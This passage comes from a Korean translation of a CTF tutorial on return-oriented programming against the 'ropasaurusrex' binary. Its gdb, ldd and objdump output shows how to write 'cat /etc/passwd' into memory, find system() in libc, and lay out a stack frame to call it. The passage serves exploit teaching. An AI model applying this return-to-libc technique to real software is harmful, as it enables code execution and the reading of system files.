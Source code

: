 ``` sh
$ gdb --quiet ./ropasaurusrex core
[...]
Program terminated with signal 11, Segmentation fault.
#0  0x43434343 in ?? ()
(gdb) x/s 0x08049530
0x8049530:       "cat /etc/passwd"
```


완벽해요!



### 실행하기
{: #running-it}


이제 `cat /etc/passwd`를 메모리에 썼고, `system()`을 호출해서 저 주소를 가리키면
됩니다. 거의 다 됐습니다. ASLR이 적용되지 않았다면 쉽죠. 실행 파일에는 libc가
링크되어 있습니다.

``` sh
$ ldd ./ropasaurusrex
        linux-gate.so.1 =>  (0xb7703000)
        libc.so.6 => /lib/i686/cmov/libc.so.6 (0xb75aa000)
        /lib/ld-linux.so.2 (0xb7704000)
```


그리고 `libc.so.6`엔 `system()` 함수가 포함되어 있습니다.

``` sh
$ objdump -T /lib/i686/cmov/libc.so.6 | grep system
000f5470 g    DF .text  00000042  GLIBC_2.0   svcerr_systemerr
00039450 g    DF .text  0000007d  GLIBC_PRIVATE __libc_system
00039450  w   DF .text  0000007d  GLIBC_2.0   system
```


디버거를 통해 ropasaurusrex에 로드된 `system()` 주소를 알아낼 수 있습니다.

``` sh
$ gdb --quiet ./ropasaurusrex core
[...]
Program terminated with signal 11, Segmentation fault.
#0  0x43434343 in ?? ()
(gdb) x/x system
0xb7ec2450 <system>:    0x890cec83
```


`system()`은 인자를 하나만 받으므로, 스택 프레임을 만드는 건 쉬운 편입니다.


``` text
+----------------------+
|         ...          | - 다른 함수들이 여기 올 것이므로 상관없음
+----------------------+

+----------------------+ <-- system()의 스택 프레임 시작
|      void *arg       | - 버퍼, 0x08049530
+----------------------+
|   [return address]   | - 'system'이 돌아갈 주소
+----------------------+
|         ...          | - system()이 지역 변수를 위해 사용할 것이므로 상관없음
+----------------------+
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://wiki.skullsecurity.org/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump
